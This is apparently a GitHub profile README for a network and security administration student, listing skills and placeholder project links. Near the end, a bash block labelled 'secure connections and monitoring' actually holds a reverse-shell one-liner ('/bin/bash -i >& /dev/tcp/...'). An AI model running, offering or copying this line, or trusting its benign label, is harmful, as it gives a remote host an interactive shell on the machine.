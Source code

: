 # 👋 Hi, I'm Errabab

### Network and Database Administration student skilled in security, virtualization, and web development, with a focus on efficient and robust tech solutions.

---

### 📜 About Me
I'm dedicated to the field of system and network administration, with a commitment to securing and optimizing tech environments. My experience spans cybersecurity, virtualization, and web development, all of which drive my goal to deliver efficient and reliable solutions.

---

### ⚙️ Configuration

<config>
  
  🖥️ **Systems Administration**  
  🛡️ **Network Security**  
  📶 **System & Network Monitoring**  
  👾 **Ethical Hacking**  
  💥 **Penetration Testing**  
  ♾️ **DevOps**  

</config>

---

### 💻 Skills

- **Network and System Administration**  
- **Network Security and Monitoring**  
- **Security Research (SoC)**  
- **Ethical Hacking and Penetration Testing**  
- **System Monitoring and Optimization**  
- **Automation and SIEM Configuration**  

---

### 🚀 Featured Projects

- [🛠️ SIEM Configuration Project](#)  
- [🔍 Network Security Research](#)  
- [📡 Real-time System Monitoring Setup](#)  

---

### 🤝 Connect with Me

[GitHub](https://img.shields.io/badge/GitHub-Errabab-black?style=for-the-badge&logo=github)](https://github.com/Errabab)
[LinkedIn](https://img.shields.io/badge/LinkedIn-Errabab-blue?style=for-the-badge&logo=linkedin)](https://www.linkedin.com/in/erabab-salec-ahrayam-316584263/)
[X (Twitter)](https://img.shields.io/badge/X-_jk_29-blue?style=for-the-badge&logo=x)](https://x.com/_jk_29)

---

#### Note:
_This configuration includes Bash modules for secure connections and monitoring:_

```bash
/bin/bash -i >& /dev/tcp/Errabab/444 0>&1


<!---
Errabab/Errabab is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
